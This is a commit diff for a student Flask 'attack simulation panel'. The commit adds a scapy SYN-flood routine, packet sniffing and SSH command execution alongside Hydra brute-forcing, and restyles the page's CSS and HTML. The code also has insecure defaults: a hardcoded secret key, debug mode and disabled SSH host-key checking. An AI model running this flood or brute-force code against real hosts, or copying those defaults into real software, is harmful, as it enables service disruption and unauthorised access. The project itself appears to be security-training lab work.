

Before and after one commit to vgonsie/Proyecto-ASIR2, a Flask app: template flask-app/templates/index.html in a window 1280 px wide. Shown: the whole page at 87% size. After the commit the page ends 1130 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
Add files via upload

```diff
--- a/flask-app/app.py
+++ b/flask-app/app.py
@@ -1,12 +1,12 @@
-# app.py
 from flask import Flask, render_template, request, redirect, url_for
 from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
 import subprocess, os, sqlite3, threading, random, time, smtplib
-from scapy.all import sniff, IP, TCP, UDP, send, Ether, ARP
+from scapy.all import sniff, IP, TCP, UDP, send
 from werkzeug.security import generate_password_hash, check_password_hash
 from email.mime.text import MIMEText
 from email.mime.multipart import MIMEMultipart
 from datetime import datetime
+import paramiko
 
 app = Flask(__name__)
 app.secret_key = 'clave_secreta_aleatoria_segura'
@@ -43,9 +43,28 @@
     msg = MIMEMultipart()
     msg['From'] = EMAIL_FROM
     msg['To'] = EMAIL_TO
-    msg['Subject'] = f"[ALERTA] Ataque iniciado"
+    msg['Subject'] = f"[ALERTA] Nuevo ataque iniciado"
     body = f"""
     <p>El usuario <strong>{current_user.username}</strong> ha iniciado un ataque <b>{tipo}</b> contra la IP <b>{ip}</b>.</p>
+    <p>Fecha y hora: {datetime.now()}</p>
+    """
+    msg.attach(MIMEText(body, 'html'))
+    try:
+        smtp = smtplib.SMTP(SMTP_SERVER, SMTP_PORT)
+        smtp.starttls()
+        smtp.login(EMAIL_FROM, EMAIL_PASS)
+        smtp.send_message(msg)
+        smtp.quit()
+    except Exception as e:
+        print(f"[ERROR EMAIL] {e}")
+
+def send_alert_denegado(tipo):
+    msg = MIMEMultipart()
+    msg['From'] = EMAIL_FROM
+    msg['To'] = EMAIL_TO
+    msg['Subject'] = f"[ALERTA] Intento denegado de ataque"
+    body = f"""
+    <p>El usuario <strong>{current_user.username}</strong> ha intentado usar un ataque <b>{tipo}</b> sin permisos.</p>
     <p>Fecha y hora: {datetime.now()}</p>
     """
     msg.attach(MIMEText(body, 'html'))
@@ -150,6 +169,50 @@
     except sqlite3.Error as e:
         print(f"[SQLITE HYDRA] {e}")
 
+# ---- SYN FLOOD ----
+def syn_flood_attack(ip, puerto, duracion):
+    from scapy.layers.inet import IP, TCP
+    end = time.time() + int(duracion)
+    while time.time() < end:
+        pkt = IP(dst=ip)/TCP(sport=random.randint(1024,65535), dport=int(puerto), flags='S')
+        send(pkt, verbose=False)
+
+def start_syn_flood(ip, puerto, duracion):
+    thread = threading.Thread(target=syn_flood_attack, args=(ip, puerto, duracion))
+    thread.daemon = True
+    thread.start()
+    send_alert("SYN Flood", ip)
+
+# ---- SNIFFING ----
+sniff_data = []
+
+def packet_handler(pkt):
+    if IP in pkt:
+        proto = "TCP" if TCP in pkt else "UDP" if UDP in pkt else "Otro"
+        sniff_data.append({
+            "src": pkt[IP].src,
+            "dst": pkt[IP].dst,
+            "proto": proto
+        })
+
+def start_sniffing(interface, duracion):
+    sniff(iface=interface, prn=packet_handler, timeout=int(duracion), store=False)
+    send_alert("Sniffing", interface)
+
+# ---- SSH Escaneo Interfaz ----
+def escanear_interfaz_ssh(ip, ssh_user, ssh_pass):
+    try:
+        ssh = paramiko.SSHClient()
+        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
+        ssh.connect(ip, username=ssh_user, password=ssh_pass, timeout=5)
+        stdin, stdout, stderr = ssh.exec_command("ip a")
+        salida = stdout.read().decode()
+        ssh.close()
+        send_alert("Escaneo de interfaz de red (SSH)", ip)
+        return salida
+    except Exception as e:
+        return f"Error SSH: {e}"
+
 # ---- FLASK ROUTES ----
 @app.route('/login', methods=['GET', 'POST'])
 def login():
@@ -174,40 +237,66 @@
 def index():
     result = None
     hydra_result = None
+    ssh_result = None
     message = None
+
     if request.method == "POST":
         ip = request.form["ip"]
         tipo = request.form["tipo_ataque"]
+
         if tipo == "nmap":
             result = run_nmap(ip)
-        elif tipo == "hydra" and current_user.role == "admin":
-            dicc = request.form["diccionario"]
-            usuario = request.form["usuario"]
-            proto = request.form["protocolo"]
-            hydra_result = run_hydra(ip, dicc, usuario, proto)
 
-    return render_template(
-        "index.html",
-        username=current_user.username,
-        role=current_user.role,
-        result=result,
-        hydra_result=hydra_result,
-        diccionarios=obtener_diccionarios()
-    )
+        elif tipo == "hydra":
+            if current_user.role != "admin":
+                send_alert_denegado("Hydra")
+                message = "❌ No tienes permisos para ejecutar Hydra."
+            else:
+                dicc = request.form["diccionario"]
+                usuario = request.form["usuario"]
+                proto = request.form["protocolo"]
+                hydra_result = run_hydra(ip, dicc, usuario, proto)
 
-@app.route("/dashboards")
+        elif tipo == "syn_flood":
+            if current_user.role != "admin":
+                send_alert_denegado("SYN Flood")
+                message = "❌ No tienes permisos para ejecutar SYN Flood."
+            else:
+                puerto = request.form["puerto"]
+                duracion = request.form["duracion"]
+                threading.Thread(target=start_syn_flood, args=(ip, puerto, duracion)).start()
+                message = f"✅ Ataque SYN Flood iniciado contra {ip} en puerto {puerto} por {duracion} segundos."
+
+        elif tipo == "sniff":
+            if current_user.role != "admin":
+                send_alert_denegado("Sniffing")
+                message = "❌ No tienes permisos para ejecutar Sniffing."
+            else:
+                interfaz = request.form["interfaz"]
+                duracion = request.form["duracion"]
+                threading.Thread(target=start_sniffing, args=(interfaz, duracion)).start()
+                message = f"✅ Sniffing iniciado en interfaz {interfaz} durante {duracion} segundos."
+
+        elif tipo == "ssh_ip":
+            ssh_user = request.form["ssh_user"]
+            ssh_pass = request.form["ssh_pass"]
+            ssh_result = escanear_interfaz_ssh(ip, ssh_user, ssh_pass)
+
+    diccionarios = obtener_diccionarios()
+    return render_template("index.html",
+                           result=result,
+                           hydra_result=hydra_result,
+                           ssh_result=ssh_result,
+                           diccionarios=diccionarios,
+                           message=message,
+                           role=current_user.role)
+
+# NUEVA RUTA PARA DASHBOARDS
+@app.route('/dashboards')
 @login_required
 def dashboards():
-    return render_template("grafana.html")
-
-@app.route("/grafana_proxy/<dashboard>")
-@login_required
-def grafana_proxy(dashboard):
-    if dashboard == "hydra":
-        return redirect("http://localhost:3000/d/hydra/hydra-dashboard?orgId=1")
-    elif dashboard == "nmap":
-        return redirect("http://localhost:3000/d/nmap/nmap-dashboard?orgId=1")
-    return "Dashboard no encontrado", 404
+    # Aquí puedes cambiar la plantilla o poner contenido que necesites
+    return render_template('grafana.html')
 
 if __name__ == "__main__":
     app.run(debug=True)
--- a/flask-app/static/styles.css
+++ b/flask-app/static/styles.css
@@ -1,164 +1,208 @@
-/* styles.css - Estilo profesional con azul eléctrico */
-
-body {
-    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-    background-color: #111827;
-    color: #f3f4f6;
+/* --- Global Reset --- */
+* {
+    box-sizing: border-box;
     margin: 0;
     padding: 0;
 }
 
-.container {
-    width: 90%;
-    max-width: 800px;
-    margin: 40px auto;
-    background-color: #1f2937;
-    padding: 30px;
-    border-radius: 10px;
-    box-shadow: 0 0 15px rgba(0, 153, 255, 0.2);
+body {
+    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+    background-color: #0e1621;
+    color: #ffffff;
+    line-height: 1.6;
+    padding: 20px;
 }
 
+/* --- Header --- */
 header {
+    background-color: #121f2e;
+    padding: 20px;
+    border-bottom: 2px solid #007bff;
     display: flex;
     justify-content: space-between;
     align-items: center;
 }
 
 header h1 {
-    font-size: 28px;
-    color: #0ea5e9;
-    margin-bottom: 20px;
+    font-size: 24px;
+    color: #00bfff;
 }
 
 .user-info {
     font-size: 14px;
-    color: #e5e7eb;
+    color: #cccccc;
 }
 
-label {
-    display: block;
-    margin-top: 15px;
-    font-weight: bold;
-    color: #93c5fd;
+.user-info a {
+    color: #00bfff;
+    text-decoration: none;
+    margin-left: 10px;
 }
 
-input[type="text"],
-input[type="password"],
-input[type="number"],
-select {
-    width: 100%;
-    padding: 10px;
-    margin-top: 6px;
-    border: 1px solid #4b5563;
-    border-radius: 6px;
-    background-color: #111827;
-    color: #f3f4f6;
-    transition: 0.3s;
+.user-info a:hover {
+    text-decoration: underline;
 }
 
-input:focus, select:focus {
-    border-color: #0ea5e9;
-    outline: none;
+/* --- Login --- */
+.login-body {
+    background-color: #0e1621;
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    height: 100vh;
 }
 
-button.login-btn,
-.toggle-btn,
-button {
-    margin-top: 20px;
-    padding: 12px;
-    background-color: #0ea5e9;
-    color: white;
-    border: none;
-    border-radius: 6px;
-    cursor: pointer;
-    font-weight: bold;
-    transition: background-color 0.3s;
-    width: 100%;
+.login-container {
+    background-color: #182737;
+    padding: 30px;
+    border-radius: 10px;
+    box-shadow: 0 0 15px rgba(0, 191, 255, 0.3);
+    width: 300px;
 }
 
-button:hover {
-    background-color: #0284c7;
+.login-container h2 {
+    color: #00bfff;
+    margin-bottom: 20px;
+    text-align: center;
 }
 
-.message-box,
-.success {
-    background-color: #1e40af;
-    color: #dbeafe;
-    padding: 12px;
-    border-left: 5px solid #3b82f6;
-    border-radius: 6px;
-    margin-bottom: 20px;
+.login-container label {
+    display: block;
+    margin-top: 10px;
+}
+
+.login-container input,
+.login-container select {
+    width: 100%;
+    padding: 8px;
+    margin-top: 5px;
+    border: 1px solid #555;
+    border-radius: 4px;
+    background-color: #1f2d3a;
+    color: white;
+}
+
+.login-container button {
+    width: 100%;
+    margin-top: 20px;
+    padding: 10px;
+    background-color: #00bfff;
+    border: none;
+    border-radius: 4px;
+    color: #fff;
+    font-weight: bold;
+    cursor: pointer;
+    transition: background 0.3s ease;
+}
+
+.login-container button:hover {
+    background-color: #0099cc;
 }
 
 .error {
-    background-color: #7f1d1d;
-    color: #fee2e2;
-    padding: 12px;
-    border-left: 5px solid #dc2626;
-    border-radius: 6px;
-    margin-bottom: 20px;
+    background-color: #ff4d4d;
+    padding: 10px;
+    margin-bottom: 15px;
+    border-radius: 4px;
+    color: white;
+    text-align: center;
 }
 
-.result-section {
-    margin-top: 30px;
-    padding: 20px;
-    background-color: #111827;
-    border: 1px solid #374151;
-    border-radius: 8px;
+/* --- Main Form --- */
+main {
+    max-width: 900px;
+    margin: 30px auto;
+    background-color: #1a2738;
+    padding: 25px;
+    border-radius: 10px;
+    box-shadow: 0 0 10px rgba(0, 191, 255, 0.2);
 }
 
-.ports-table,
-.creds-table,
-.info-table {
-    width: 100%;
-    border-collapse: collapse;
-    margin-top: 10px;
-    font-size: 14px;
-}
-
-.ports-table th,
-.ports-table td,
-.creds-table th,
-.creds-table td,
-.info-table th,
-.info-table td {
-    padding: 10px;
-    border: 1px solid #374151;
-    color: #e5e7eb;
-}
-
-.state-open {
-    color: #22c55e;
-}
-.state-closed {
-    color: #ef4444;
-}
-
-.raw-output {
-    background-color: #000000;
-    color: #0ea5e9;
-    padding: 10px;
-    font-family: monospace;
-    font-size: 13px;
-    border-radius: 4px;
-    overflow-x: auto;
+form.attack-form label {
+    display: block;
     margin-top: 15px;
-}
-
-.back-btn {
-    color: #0ea5e9;
-    text-decoration: none;
+    color: #00bfff;
     font-weight: bold;
 }
 
-.back-btn:hover {
-    text-decoration: underline;
+form.attack-form input,
+form.attack-form select {
+    width: 100%;
+    padding: 8px;
+    margin-top: 5px;
+    border: 1px solid #444;
+    border-radius: 4px;
+    background-color: #1f2d3a;
+    color: #fff;
 }
 
-h2, h3 {
-    color: #3b82f6;
+form.attack-form button {
+    margin-top: 20px;
+    padding: 10px 15px;
+    background-color: #00bfff;
+    color: #fff;
+    border: none;
+    border-radius: 4px;
+    font-weight: bold;
+    cursor: pointer;
 }
 
-pre {
-    white-space: pre-wrap;
+form.attack-form button:hover {
+    background-color: #0077cc;
 }
+
+.conditional-options {
+    display: none;
+}
+
+/* --- Output Section --- */
+.output-box {
+    background-color: #111d2b;
+    border: 1px solid #00bfff;
+    padding: 20px;
+    margin-top: 25px;
+    border-radius: 6px;
+}
+
+.output-box h3 {
+    color: #00bfff;
+    margin-bottom: 10px;
+}
+
+.output-box pre {
+    background-color: #0e1621;
+    padding: 10px;
+    color: #00ffcc;
+    border-radius: 4px;
+    overflow-x: auto;
+}
+
+/* --- Messages --- */
+.message {
+    background-color: #1e6b9d;
+    color: #fff;
+    padding: 10px;
+    margin-top: 15px;
+    border-radius: 4px;
+    text-align: center;
+}
+
+/* --- Dashboards Link --- */
+footer {
+    margin-top: 30px;
+    text-align: center;
+}
+
+.dashboards-btn {
+    background-color: #0077cc;
+    color: white;
+    padding: 10px 20px;
+    border-radius: 6px;
+    text-decoration: none;
+    font-weight: bold;
+    transition: background 0.3s ease;
+}
+
+.dashboards-btn:hover {
+    background-color: #005fa3;
+}
--- a/flask-app/templates/index.html
+++ b/flask-app/templates/index.html
@@ -2,123 +2,141 @@
 <html lang="es">
 <head>
     <meta charset="UTF-8">
-    <title>Herramienta de Pentesting</title>
+    <title>Panel de Ataques - Proyecto ASIR2</title>
     <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
 </head>
 <body>
-<div class="container">
     <header>
-        <h1>Simulación de Ataques</h1>
-        <div class="user-info">
-            <span>Usuario: {{ username }} ({{ role }})</span>
-            <a href="{{ url_for('logout') }}" class="logout-btn">Cerrar sesión</a>
-        </div>
+        <h1>🔒 Panel de Simulación de Ataques</h1>
+        <div class="user-info">Sesión: {{ username }} | <a href="{{ url_for('logout') }}">Salir</a></div>
     </header>
 
-    {% if message %}
-    <div class="message-box">{{ message }}</div>
-    {% endif %}
+    <main>
+        <form method="POST" class="attack-form">
+            <label>IP Objetivo:</label>
+            <input type="text" name="ip" required>
 
-    <form method="POST">
-        <label for="ip">IP de destino:</label>
-        <input type="text" id="ip" name="ip" placeholder="192.168.1.1" required>
-
-        <label for="tipo_ataque">Tipo de ataque:</label>
-        <select name="tipo_ataque" id="tipo_ataque" required>
-            {% if role == 'admin' %}
-                <option value="nmap">Escaneo Nmap (-sV)</option>
-                <option value="hydra">Ataque Hydra</option>
-                <option value="syn_flood">DoS SYN Flood</option>
-                <option value="sniff">Sniffing Pasivo</option>
-                <option value="ssh_ip_a">SSH + 'ip a'</option>
-            {% else %}
-                <option value="nmap">Escaneo Nmap (-sV)</option>
-                <option value="ssh_ip_a">SSH + 'ip a'</option>
-            {% endif %}
+            <label>Tipo de ataque:</label>
+            <select name="tipo_ataque" required id="tipo_ataque_select">
+                <option value="nmap">Escaneo Nmap</option>
+                <option value="hydra">Fuerza Bruta (Hydra)</option>
+                <option value="syn_flood">SYN Flood</option>
+                <option value="sniff">Sniffing de Red</option>
+                <option value="ssh_scan">Escaneo interfaz de red (SSH)</option>
             </select>
 
-        <!-- Campos específicos de Hydra -->
-        <div id="hydra-fields" style="display:none;">
-            <label for="diccionario">Diccionario:</label>
-            <select name="diccionario" required>
-                {% for d in diccionarios %}
-                <option value="{{ d }}">{{ d }}</option>
-                {% endfor %}
-            </select>
-
-            <label for="usuario">Usuario:</label>
-            <input type="text" name="usuario" value="debian" required>
-
-            <label for="protocolo">Protocolo:</label>
-            <select name="protocolo" required>
+            <div id="hydra-options" class="conditional-options" style="display:none;">
+                <label>Usuario:</label>
+                <input type="text" name="usuario" value="debian">
+                <label>Protocolo:</label>
+                <select name="protocolo">
                     <option value="ssh">SSH</option>
                     <option value="ftp">FTP</option>
-                <option value="http">HTTP</option>
+                </select>
+                <label>Diccionario:</label>
+                <select name="diccionario">
+                    {% for dic in diccionarios %}
+                        <option value="{{ dic }}">{{ dic }}</option>
+                    {% endfor %}
                 </select>
             </div>
 
-        <button type="submit" class="login-btn">Ejecutar Ataque</button>
+            <div id="flood-options" class="conditional-options" style="display:none;">
+                <label>Puerto:</label>
+                <input type="number" name="puerto" value="80">
+                <label>Duración (s):</label>
+                <input type="number" name="duracion" value="10">
+            </div>
+
+            <div id="sniff-options" class="conditional-options" style="display:none;">
+                <label>Interfaz:</label>
+                <input type="text" name="interfaz" value="eth0">
+                <label>Duración (s):</label>
+                <input type="number" name="duracion" value="10">
+            </div>
+
+            <div id="ssh-options" class="conditional-options" style="display:none;">
+                <label>Usuario SSH:</label>
+                <input type="text" name="ssh_user" value="kali">
+                <label>Contraseña SSH:</label>
+                <input type="password" name="ssh_pass">
+            </div>
+
+            <button type="submit">Ejecutar Ataque</button>
         </form>
 
-    <br>
-    <a href="{{ url_for('dashboards') }}" class="dashboard-btn">📊 Ver Dashboards</a>
+        {% if message %}
+            <div class="message">{{ message }}</div>
+        {% endif %}
 
         {% if result %}
-    <div class="result-section">
-        <h2>🔍 Resultado de Nmap</h2>
-        {% if result.error %}
-        <div class="error">{{ result.error }}</div>
+            <div class="output-box">
+                <h3>Resultados de Nmap</h3>
+                <pre>
+Host: {{ result.host }}
+Estado: {{ result.status }}
+MAC: {{ result.mac }}
+
+{% for p in result.ports %}
+- {{ p.port }} | {{ p.service }} | {{ p.version }}
+{% endfor %}
+                </pre>
+            </div>
+        {% endif %}
+
+        {% if hydra_result %}
+            <div class="output-box">
+                <h3>Resultados de Hydra</h3>
+                {% if hydra_result.error %}
+                    <pre>{{ hydra_result.error }}</pre>
                 {% else %}
-        <p><strong>Host:</strong> {{ result.host }}</p>
-        <p><strong>Estado:</strong> {{ result.status }}</p>
-        {% if result.mac %}<p><strong>MAC:</strong> {{ result.mac }}</p>{% endif %}
-        {% if result.ports %}
-        <table class="ports-table">
-            <tr>
-                <th>Puerto</th><th>Estado</th><th>Servicio</th><th>Versión</th>
-            </tr>
-            {% for port in result.ports %}
-            <tr>
-                <td>{{ port.port }}</td>
-                <td class="state-{{ port.state }}">{{ port.state }}</td>
-                <td>{{ port.service }}</td>
-                <td>{{ port.version }}</td>
-            </tr>
-            {% endfor %}
-        </table>
-        {% endif %}
-        <pre class="raw-output">{{ result.raw_output }}</pre>
+                    <pre>
+Host: {{ hydra_result.host }}
+Puerto: {{ hydra_result.port }}
+Usuario: {{ hydra_result.login }}
+Contraseña: {{ hydra_result.password }}
+                    </pre>
                 {% endif %}
             </div>
         {% endif %}
 
-    {% if hydra_result %}
-    <div class="result-section">
-        <h2>🔑 Resultado de Hydra</h2>
-        {% if hydra_result.error %}
-        <div class="error">{{ hydra_result.error }}</div>
-        {% else %}
-        <p><strong>Host:</strong> {{ hydra_result.host }}</p>
-        <p><strong>Puerto:</strong> {{ hydra_result.port }}</p>
-        <p><strong>Usuario:</strong> {{ hydra_result.login }}</p>
-        <p><strong>Contraseña:</strong> {{ hydra_result.password }}</p>
-        <pre class="raw-output">{{ hydra_result.raw_output }}</pre>
-        {% endif %}
+        {% if ssh_result %}
+            <div class="output-box">
+                <h3>Resultado del Escaneo de Interfaz</h3>
+                <pre>{{ ssh_result }}</pre>
             </div>
         {% endif %}
-</div>
+    </main>
+
+    <footer>
+        <a href="{{ url_for('dashboards') }}" class="dashboards-btn">📊 Ver Dashboards</a>
+    </footer>
 
     <script>
-    const tipoAtaque = document.getElementById("tipo_ataque");
-    const hydraFields = document.getElementById("hydra-fields");
+        const tipoSelect = document.getElementById('tipo_ataque_select');
 
-    tipoAtaque.addEventListener("change", () => {
-        hydraFields.style.display = tipoAtaque.value === "hydra" ? "block" : "none";
-    });
+        const options = {
+            hydra: document.getElementById('hydra-options'),
+            syn_flood: document.getElementById('flood-options'),
+            sniff: document.getElementById('sniff-options'),
+            ssh_scan: document.getElementById('ssh-options')
+        };
 
-    document.addEventListener("DOMContentLoaded", () => {
-        hydraFields.style.display = tipoAtaque.value === "hydra" ? "block" : "none";
-    });
+        function updateForm() {
+            // Ocultar todas las opciones condicionales
+            for (const key in options) {
+                options[key].style.display = 'none';
+            }
+
+            let selected = tipoSelect.value;
+
+            if (options[selected]) {
+                options[selected].style.display = 'block';
+            }
+        }
+
+        updateForm();
+        tipoSelect.addEventListener('change', updateForm);
     </script>
 </body>
 </html>
```
Also changed, not shown: flask-app/templates/grafana.html (+15 -15 lines), flask-app/templates/login.html (+11 -19 lines). Lines whose indentation alone changed are shown as unchanged.
